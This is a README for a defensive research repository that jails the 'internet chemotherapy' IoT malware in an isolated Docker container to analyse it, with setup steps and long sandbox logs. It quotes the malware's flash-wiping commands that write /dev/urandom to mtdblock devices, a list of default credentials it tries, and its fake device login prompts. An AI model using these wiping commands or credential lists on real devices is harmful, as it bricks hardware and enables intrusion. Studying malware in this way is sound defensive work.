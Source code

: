 IoT - Nerfball
==============

This repository was built as a thought experiment in learning how to defend against attacks and exploits from python-based threats. I built this specifically to learn how internet chemotherapy worked and how to defend against it. I hope others will find it valuable when they try to defend against something like this in the future.

After reviewing how the code worked, I built a jail to help me **nerf what I didn't need.** By disabling the system's python calls the container has a reduced surface area for this type of application to do something bad. Please note, even the approach outlined in this repository is not perfect for all types of threats or new ones in the future. 

Why did you build it?
---------------------

I did not know of a tool to inspect hacks like this where untrusted code was in play that could easily destroy my own property if I screwed up. This repository is how I built the jail and crafted it to inspect the python system calls as they ran on the host operating system. After the system access audit passed the unittests, I started to feel comfortable that I could debug with less chance of something going bad while learning how it worked.

Why does this matter?
---------------------

This is an approach to reduce python's ability to be able to do bad things on the host when running untrusted code (control your python runtime surface area). It also shows how to control the system's python utilities so you can still change the underlying host api calls if needed (the tests use environment variables to toggle calls on and off). It also shows how potentially aggressive this code appears to be in this early testing phase.

Please note this code is for educational purposes and not tested against all known threats. Please see the `Disclaimers and Warnings`_ section for more details.

**Please explore these types of threats with care.**

.. _Disclaimers and Warnings: https://github.com/jay-johnson/nerfball#disclaimers-and-warnings

Disclaimers and Warnings
========================

DEVELOPMENT ONLY - NON-PRODUCTION USAGE
---------------------------------------

- **This repository is not intended for production use.** It is used for educational purposes and is not tested against all possible threats. It is used for learning how to defend against attacks... PLEASE be careful and clone at your own risk!

- This repository builds a jail to tests threats and learn how they work. `Jails get compromised`_ and this has not been tested with other threats to see if it will work in containing an untested, and unknown, active threat within your own host and network. Please contact me if you would like to research something not covered here in a controlled environment.

- By using this tool you acknowledge and accept all risks that come from **trying to build a non-complete jail** to hold software that can break out and destroy, brick, modify and infect your laptop(s), desktop(s), server(s), vm(s), host(s), IoT device(s), your own devices (phones, wifi-access points), your own network, your neighbors' device(s), install ransomware, install malware, install viruses, steal your own account credentials. I accept no legal responsbility or liability for you using this tool beyond reading and viewing how I learned how a specific list of threats tried to compromise IoT devices. 

- When you clone or download this repository you acknowledge you are using a repository with tools to download a known, claimed threat onto your own host. You accept responsibilities for knowing that you are downloading a threat into the network. **I am not responsible if you get fired, sued or worse from using a tool that could violate security, liability or any contract agreements**. Please know where you are running this tool before cloning, developing, testing or building the jail.

- This tool will not work on threats that it was not tested on.

- This is a repository that you should use at your own risk. The original content claims this code disabled millions of IoT devices. Treat this as an active piece of malware that should not be trusted.

Initial Observations
--------------------

These will be updated as I continue finding out more how this works and what type of mitigation strategies start to emerge.

The repo downloads the GitHub-hosted internet chemotherapy source code from the third party repository:
https://raw.githubusercontent.com/JeremyNGalloway/mod_plaintext.py/f671e74c688ab06e48d8ab0bde5d949afe75fd86/mod_plaintext.py

- Reverse engineering is time consuming and scary when your hardware is in use. So far the code appears to operate as a single-file, standalone python 2.7 application with one main component.
- It utilizes low-level python networking sockets (this makes sense as most of these libraries are commonly installed by default on most linux-like operating systems)
- It is a single python module that does not work natively on python 3 - that's why I went with python 3 instead of 2 when building this first version
- It does not have a list of imports that it requires - I used cat and grep to figure out what was going on
- Make sure this does not run anywhere with any network access
- Make sure this code does not run on a non-nerfed python runtime
- Use python 3 instead of python 2 to ensure all connectivity api calls will likely require python 3 byte handling fixes (https://stackoverflow.com/questions/14472650/python-3-encode-decode-vs-bytes-str)
- Make sure it does not run on a system using flash-based storage. Here's how it tries to brick flash disks:

::

    'busybox cat /dev/urandom >/dev/mtdblock0;busybox cat /dev/urandom >/dev/mtdblock1;busybox cat /dev/urandom >/dev/mtdblock2;busybox cat /dev/urandom >/dev/mtdblock3;busybox cat /dev/urandom >/dev/mtdblock4;busybox cat /dev/urandom >/dev/mtdblock5' ,
    'busybox cat /dev/urandom >/dev/mtdblock0;busybox cat /dev/urandom >/dev/mtdblock1;busybox cat /dev/urandom >/dev/mtdblock2;busybox cat /dev/urandom >/dev/mtdblock3;busybox cat /dev/urandom >/dev/mtdblock4;busybox cat /dev/urandom >/dev/mtdblock5 &' ,
    'cat /dev/urandom >/dev/mtdblock0;cat /dev/urandom >/dev/mtdblock1;cat /dev/urandom >/dev/mtdblock2;cat /dev/urandom >/dev/mtdblock3;cat /dev/urandom >/dev/mtdblock4;cat /dev/urandom >/dev/mtdblock5' ,
    'cat /dev/urandom >/dev/mtdblock0;cat /dev/urandom >/dev/mtdblock1;cat /dev/urandom >/dev/mtdblock2;cat /dev/urandom >/dev/mtdblock3;cat /dev/urandom >/dev/mtdblock4;cat /dev/urandom >/dev/mtdblock5 &' ,

- How can we control this untrusted code? I wanted to figure out a way to control how the python module interfaced with the host VM. This led to overriding and disabling most of the common os-interfacing api calls to prevent how that code could get a chance to brick/delete or destory my local vm.

Note about subprocess exploits
------------------------------

I created a python 3 subprocess.py module to override the default `cpython shared object subprocess`_. I mention this because I am not certain pathing is not going to be a problem when there is a loading order that the code is not explicitly controlling. This probably can be exploited and should be monitored with caution.

.. _cpython shared object subprocess: https://github.com/python/cpython/blob/3.6/Lib/subprocess.py

Overview and Concepts
---------------------

#.  Sentinel - Main

    The main server loop that manages and orchestrates connectivity and can be configured using an optional local config file (if present). This component can create, manage and read and write over a list of configurable sockets. It is also capable of emulating customized ssh servers which could trick users into logging in to this host like a man-in-the-middle attack. I can imagine there is some tooling that has not been released that deploys this software to emulate the device it just hacked and then it waits for a tech to login to figure out what happened. On login, the malware gets new credentials to try as it scans for new devices to exploit.

#.  Device Identification and Specific Exploits

    The code appears to utilize sockets to login. Once connected it tries to brick devices by sending flash-erasing and network-disabling commands mapped to specific devices. Given how many IoT devices are using flash storage this makes sense as one of the vulnerable resources to target. It also looks like it uses response banner discovery (regex) to detect the device type which helps identify the list of vulnerabilities to try. Exploit-login attempts have a configurable back-off retry timer to reduce the velocity of failed login attempts and which helps reduce the power usage on one these compromised devices. Keeping the lights on longer makes sense as well after getting installed.

.. _Jails get compromised: https://www.twistlock.com/2017/12/27/escaping-docker-container-using-waitid-cve-2017-5123/

How do I get started?
---------------------

#.  Setup the virtualenv 

    If you want to use python 3:

    ::

        virtualenv -p python3 venv && source venv/bin/activate && pip install -e .

    Python 2 - coming soon

Build the Nerfball
------------------

Before building the nerfball please take a moment to review what this does from a security perspective:

1. Build - create a python 3.6 alpine docker container image on disk
2. Install - install dependencies and nerfball pip inside this repository into a controllable virtual environment
3. Nerf - install customized python modules (os.py, imp.py, subprocess.py and importlib) into the virtual environment
4. **Download Malware/Virus Source Code**

^ Please note this repository contains code to download a known, claimed threat which will be on your host. Please be careful where you are using this or even cloning the repo. Are you inside a corporate intranet or on a vpn? Then this is probably a **bad idea**.

#.  Build

    It takes a few minutes to build

    ::

        ./build.sh

#.  Confirm Image is Ready

    ::

        $ docker ps | grep nerfball
        REPOSITORY                              TAG                 IMAGE ID            CREATED             SIZE
        jayjohnson/nerfball                     1.0.0               0ad82713e196        About an hour ago   490 MB
        jayjohnson/nerfball                     latest              0ad82713e196        About an hour ago   490 MB

Start the Nerfball Jail 
-----------------------

This uses docker-compose (installed in the virtual environment) to start a docker container that has `CAPs disabled`_ and `no network connection`_ to the outside world. By default, the compose file has the python runtime NERFs enabled, but for testing purposes there is an environment file for running the python unittests from within the nerf jail to confirm they can be turned off (commands like ``pip list`` do not work correctly with NERFs enabled).

.. _CAPs disabled: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
.. _no network connection: https://docs.docker.com/compose/compose-file/#network_mode

#.  Start

    ::

        ./start.sh

Explore Bad Stuff
-----------------

#.  SSH into the Nerfball

    From another terminal in the repository's base directory, ssh into the docker container.

    ::

        ./ssh.sh

#.  Change to the "Bad Stuff" directory

    ::

        cd /opt/badstuff

#.  Examine the contents

    ::

        ls

#.  Run Bad Stuff

    Please be careful with this next command, as it is running something that may destroy your laptop, desktop, and everything else listed in the `Disclaimers and Warnings`_ section.

    Note: I am not planning on sharing a nerfed, fixed version of the code so the container uses the vanilla, original version of the code that I have not modified. 
    
    Before running it on your machine, please review the rest of the snippets below from my work-in-progress version running in the nerfball docker container. The latest virus configuration I am testing appears to be running the ssh/telnet emulator accessible on tcp port ``2323``. This server appears to host a randomized login prompt emulating devices that are targeted for the brick-a-device exploits. 
    
    Once an incoming client connection is detected on port ``2323`` it will trigger sending an exploit over a socket (on port 9000). I have slowed down the internal server loop to read how it works by reviewing the log output and captured the stdout shell output below. Please be careful with this code, I did not know it was phishing for logins using this approach until tonight (12/31/2017). Additionally I created a ``listen-on-port.py`` that will auto-reply to any of the exploits sent over port 9000 after the telnet session connects within the docker container.

    ::

        print("-----------------------------------------------------")
        print("TEST connecting to port={}".format(use_target_port))
        use_socket_for_login_attempt.connect(("0.0.0.0", int(use_target_port)))
        use_socket_for_login_attempt.send(b'This could be an incoming exploit attack here')
        print("TEST DONE connecting to port={}".format(use_target_port))
        print("-----------------------------------------------------")

    .. _Disclaimers and Warnings: https://github.com/jay-johnson/nerfball#disclaimers-and-warnings

#.  Start python server that will be be targeted by one of the exploits

    From a new terminal session in the base repository directory, ssh into the nerfball.

    ::

        ./ssh.sh

    Start simple listening server which is the target of these exploits:

    ::

        (venv) root:/opt/nerfball# listen-on-port.py
        os._get_exports_list=posix
        os._exists name=_have_functions
        os._add function label=HAVE_FUTIMESAT fn=utime
        os._add function label=HAVE_FUTIMENS fn=utime
        os._add function label=HAVE_FUTIMES fn=utime
        os._add function label=HAVE_LUTIMES fn=utime
        os._add function label=HAVE_UTIMENSAT fn=utime
        os._exists name=fork
        os._exists name=spawnv
        os._exists name=execv
        os._exists name=spawnv
        os._exists name=spawnvp
        os._exists name=fspath
        os._get_exports_list=_socket
        os - popen cmd=uname -p 2> /dev/null mode=r buffering=-1
        2018-01-01T07:52:00.007266 - Starting Server address=127.0.0.1:9000 backlog=5 size=1024 sleep=0.5 shutdown=/tmp/shutdown-listen-server-127.0.0.1-9000

#.  Prepare Telnet Client
    
    From a new terminal session in the base repository directory, ssh into the nerfball.

    ::

        ./ssh.sh

#.  Start Sentinel

    From a new terminal session in the base repository directory, ssh into the nerfball.

    ::

        ./ssh.sh

    This is my work-in-progress version's logs from a test

    ::

        (venv) root:/opt/nerfball# export NERF_TEST_PORT=9000 && python /opt/badstuff/internet_chemo.py
        os._get_exports_list=posix
        os._exists name=_have_functions
        os._add function label=HAVE_FUTIMESAT fn=utime
        os._add function label=HAVE_FUTIMENS fn=utime
        os._add function label=HAVE_FUTIMES fn=utime
        os._add function label=HAVE_LUTIMES fn=utime
        os._add function label=HAVE_UTIMENSAT fn=utime
        os._exists name=fork
        os._exists name=spawnv
        os._exists name=execv
        os._exists name=spawnv
        os._exists name=spawnvp
        os._exists name=fspath
        os._get_exports_list=_socket
        Booting up
        trying logins=0/36
        trying logins=1/36
        trying logins=2/36
        trying logins=3/36
        trying logins=4/36
        trying logins=5/36
        trying logins=6/36
        trying logins=7/36
        trying logins=8/36
        trying logins=9/36
        trying logins=10/36
        trying logins=11/36
        trying logins=12/36
        trying logins=13/36
        trying logins=14/36
        trying logins=15/36
        trying logins=16/36
        trying logins=17/36
        trying logins=18/36
        trying logins=19/36
        trying logins=20/36
        trying logins=21/36
        trying logins=22/36
        trying logins=23/36
        trying logins=24/36
        trying logins=25/36
        trying logins=26/36
        trying logins=27/36
        trying logins=28/36
        trying logins=29/36
        trying logins=30/36
        trying logins=31/36
        trying logins=32/36
        trying logins=33/36
        trying logins=34/36
        trying logins=35/36
        - trying login=admin:admin
        - trying login=admin:1234
        - trying login=admin:password
        - trying login=admin:
        - trying login=user:user
        - trying login=user:1234
        - trying login=user:
        - trying login=cisco:cisco
        - trying login=Cisco:Cisco
        - trying login=cusadmin:password
        - trying login=admin:admin
        - trying login=admin:admin
        - trying login=admin:admin
        - trying login=admin:admin
        - trying login=admin:admin
        Done: Booting up
        Starting Sentinel file=/tmp/sentinel/control.cfg bootup=True
        starting sentinel with config=/tmp/system/control.cfg
        starting sentinel
        using ports=[2323]
        done starting sentinel
        9000
        NOTC: Sentinel added listening TEST port=9000
        Trying socket logins=1
        login=0/1 START host=0.0.0.0:2323
        login=1/1 DONE host=0.0.0.0:2323
        Sentinel Process Launch (1 listeners)
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=0 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        process disconnects and restart events
        STAT V: 1 SCT: 0 RSQ: 0 BFJ: 0 WPT: 0 PUT: 0 TRT: 0 XMP: 0
        - Jobs to try=0
        - Jobs to try=[]

    
    The server is set up to sleep for a few seconds to make reading logs easier
    
#.  Use the Telnet Client session to connect on port 2323

    The Sentinel will emulate logging into a server by asking for credentials as well as present a banner.

    ::

        telnet 0.0.0.0 2323

    After a few seconds the randomized login prompt will appear with something like:

    ::

        
        Welcome to VeEX(R) V100-IGM/MPX Console.

        (none) login: admin
        Password: admin

        Login incorrect. Try again.

    or it might be:

    ::

        BCM96318 Broadband Router
        Login: admin
        Password: admin

        Login incorrect. Try again.

    or:

    ::

        Ruijie login: admin
        Password: admin

    or:

    ::

        ralink login: admin
        Password: admin

#.  Verify Sentinel Processed the Client Connection

    ::

        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=0 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=1 writeables=0 exceptions=0

        -----------------------------------------------------
        TEST connecting to port=9000
        TEST DONE connecting to port=9000
        -----------------------------------------------------

        connect_and_attempt_login_to_ip(<socket.socket fd=5, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 2323), raddr=('127.0.0.1', 60864)>, 127.0.0.1, 2323
        <socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        trying logins over http ct=1514793887.203082 ut=1514793883.981449 val=3.221633195877075
        telnet_try_to_login_over_socket_with_http - socket logins readables=0 writeables=3 exceptions=0
        Socket result code=111
        Socket result code=111
        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=1 writeables=1 exceptions=0

        --------------------------
        Received bytes=2 socket=<socket.socket fd=5, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 2323), raddr=('127.0.0.1', 60864)>


        --------------------------


        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=1 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        trying logins over http ct=1514793890.3361382 ut=1514793887.203082 val=3.133056163787842
        telnet_try_to_login_over_socket_with_http - socket logins readables=0 writeables=4 exceptions=0
        Socket result code=111
        Socket result code=111
        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=1 writeables=1 exceptions=0

        --------------------------
        Received bytes=2 socket=<socket.socket fd=5, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 2323), raddr=('127.0.0.1', 60864)>


        --------------------------


        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=1 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=1 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        trying logins over http ct=1514793893.52531 ut=1514793890.3361382 val=3.18917179107666
        telnet_try_to_login_over_socket_with_http - socket logins readables=0 writeables=5 exceptions=0
        Socket result code=111
        Socket result code=111
        Socket result code=111
        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=1 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=1 writeables=1 exceptions=0

        --------------------------
        Received bytes=7 socket=<socket.socket fd=5, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 2323), raddr=('127.0.0.1', 60864)>
        admin

        --------------------------

        try_login_using_telnet_socket_and_http - sub and send ex=a bytes-like object is required, not 'str'
        try_login_using_telnet_socket_and_http - send slr + sln ex=a bytes-like object is required, not 'str'

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=1 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=0 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        trying logins over http ct=1514793896.7155027 ut=1514793893.52531 val=3.190192699432373
        telnet_try_to_login_over_socket_with_http - socket logins readables=0 writeables=5 exceptions=0
        Socket result code=111
        Socket result code=111
        - Jobs to try=0
        - Jobs to try=[]
        loop
        try_logging_into_device - socket logins readables=0 writeables=0 exceptions=0
        handle_timeouts - socket logins readables=0 writeables=0 exceptions=0
        process_login_sockets_that_have_timedout_or_failed - socket logins readables=0 writeables=0 exceptions=0
        try_to_login_using_socket - socket logins readables=0 writeables=0 exceptions=0
        try_login_using_telnet_socket_and_http - socket logins readables=0 writeables=1 exceptions=0

        Section 0 - checking sockets=1 status
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]

        Section 1 - socket logins=1 readables=1 writeables=0 exceptions=0

        ---------------------------------------------------------
        Section 2 - Num of sockets=1
        [<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('0.0.0.0', 2323)>]
        ---------------------------------------------------------

        ---------------------------------------------------------
        Section 3 - socket logins readables=0 writeables=0 exceptions=0
        ---------------------------------------------------------

        - Jobs to try=0
        - Jobs to try=[]
        loop
